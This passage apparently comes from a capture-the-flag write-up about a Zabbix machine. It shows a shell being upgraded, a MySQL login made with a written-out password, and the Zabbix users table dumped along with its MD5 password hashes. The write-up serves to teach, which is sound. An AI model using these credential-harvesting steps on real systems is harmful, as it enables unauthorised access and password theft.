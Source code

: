 Okay, let's see if we can access the MySQL database.

```sh
zabbix@308e0d2f0722:/$ script -q /dev/null
script -q /dev/null
$ mysql -u zabbix -D zabbixdb -p
mysql -u zabbix -D zabbixdb -p
Enter password: f.YMeMd$pTbpY3-449

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 448
Server version: 5.7.23-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

```sql
mysql> SELECT * FROM users;
SELECT * FROM users;
+--------+--------+--------+---------------+----------------------------------+-----+-----------+------------+-------+---------+------+---------+----------------+--------------+---------------+---------------+
| userid | alias  | name   | surname       | passwd                           | url | autologin | autologout | lang  | refresh | type | theme   | attempt_failed | attempt_ip   | attempt_clock | rows_per_page |
+--------+--------+--------+---------------+----------------------------------+-----+-----------+------------+-------+---------+------+---------+----------------+--------------+---------------+---------------+
|      1 | Admin  | Zabbix | Administrator | 65e730e044402ef2e2f386a18ec03c72 |     |         1 |          0 | en_GB |      30 |    3 | default |              4 | 10.10.14.199 |    1741662252 |            50 |
|      2 | guest  |        |               | d41d8cd98f00b204e9800998ecf8427e |     |         1 |          0 | en_GB |      30 |    1 | default |              0 |              |             0 |            50 |
|      3 | zapper | zapper |               | 16a7af0e14037b567d7782c4ef1bdeda |     |         0 |          0 | en_GB |      30 |    3 | default |              0 |              |             0 |            50 |
+--------+--------+--------+---------------+----------------------------------+-----+-----------+------------+-------+---------+------+---------+----------------+--------------+---------------+---------------+
3 rows in set (0.00 sec)
```
